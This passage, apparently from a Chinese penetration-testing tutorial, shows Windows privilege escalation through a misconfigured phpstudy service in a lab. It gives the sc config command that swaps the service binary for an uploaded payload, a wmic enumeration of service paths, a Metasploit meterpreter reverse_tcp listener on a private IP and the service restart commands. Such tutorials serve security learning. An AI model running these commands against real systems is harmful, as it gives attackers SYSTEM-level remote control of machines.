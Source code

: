 

##### ② 替换服务为攻击载荷

“`Authenticated Users`” 组对 `phpstudysrv` 服务具有 `SERVICE_QUERY_CONFIG` 权限。

此时执行以下命令，将该**服务启动时执行的二进制文件**替换为**预先上传的攻击载荷**。

当服务重启时，**载荷会随着服务的启动继承系统权限**

```python
计算机\HKEY LOCAL MACHINE\SYSTEM\CurrentControlSet\Services\phpstudySrv
```

![image-20241010092412244](https://image.201068.xyz/assets/38.后渗透/image-20241010092412244.png)

```bash
sc config phpstudysrv binpath= "cmd.exe /c C:\phpstudy_pro\WWW\vul\rce\msf_8888.exe"

wmic service get name,displayname,pathname,startmode|findstr /i "Auto" |findstr /i /v "C:Windows" |findstr/i /v """

#恢复配置
sc config phpstudysrv binpath= "C:\phpstudy_pro\COM\phpStudyServer.exe -SCM"
```



![image-20241010092633835](https://image.201068.xyz/assets/38.后渗透/image-20241010092633835.png)

![image-20241010092932383](https://image.201068.xyz/assets/38.后渗透/image-20241010092932383.png)

##### msf监听

```python
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.70.4
set lport 8888
run
```

![image-20241010093111222](https://image.201068.xyz/assets/38.后渗透/image-20241010093111222.png)

##### 重启服务 

如果当前用户对该服务拥有`SERVICE_STOP`和 `SERVICE_START`权限，意味着用户拥有**对服务的重启权限**，可以直接执行命令重启服务。

```python
sc stop phpstudysrv
sc start phpstudysrv
```

![image-20241010093240162](https://image.201068.xyz/assets/38.后渗透/image-20241010093240162.png)

![image-20241010094008744](https://image.201068.xyz/assets/38.后渗透/image-20241010094008744.png)
